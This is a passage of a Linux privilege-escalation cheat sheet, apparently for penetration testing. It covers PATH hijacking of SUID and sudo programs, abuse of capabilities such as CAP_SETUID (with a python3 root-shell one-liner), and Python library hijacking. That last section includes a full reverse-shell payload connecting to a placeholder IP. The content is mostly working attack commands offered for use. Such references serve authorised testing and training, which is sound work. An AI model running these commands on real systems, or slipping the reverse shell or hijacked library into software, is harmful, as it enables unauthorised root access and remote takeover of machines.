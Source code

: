 ## Modifying `$PATH` for SUID/SUDO programs
- Make alternative command which runs privileged bash:
```bash
echo "/bin/bash -p" > /tmp/<command>
chmod +x /tmp/<command>
```
- Modify `$PATH`:
```bash
export PATH=/tmp:$PATH # To start searching for the <command> in /tmp first
```
- Or run program and pass `$PATH` to it _(this may also work for `sudo` commands with no secure_path set)_:
```bash
PATH=/tmp:$PATH <program_name>
```

## Exploiting capabilities
- Possibly dangerous capabilities:
```
=ep, CAP_CHOWN, CAP_DAC_OVERRIDE, CAP_DAC_READ_SEARCH, CAP_SETUID, CAP_SETGID, CAP_NET_RAW, CAP_SYS_ADMIN, 
CAP_SYS_PTRACE, CAP_SYS_MODULE, CAP_FORMER, CAP_SETFCAP
```
- Example exploiting `CAP_SETUID` set for python3:
```bash
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

## Python library hijacking
- Check library loading locations order:
```bash
python -c 'import sys; print "\n".join(sys.path)' # The first empty one is the current dir
```
- Create required library copy keeping the same class/method signature and populate with the reverse shell code:
```python
import os
import pty
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<ip>",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
s.close()
```
- Put code in the proper location if possible.
- Or modify PYTHONPATH env variable if sudo SETENV is set:
```bash
sudo PYTHONPATH=/tmp/ /usr/bin/<some_python> <some_vulnerable_python_script>
```
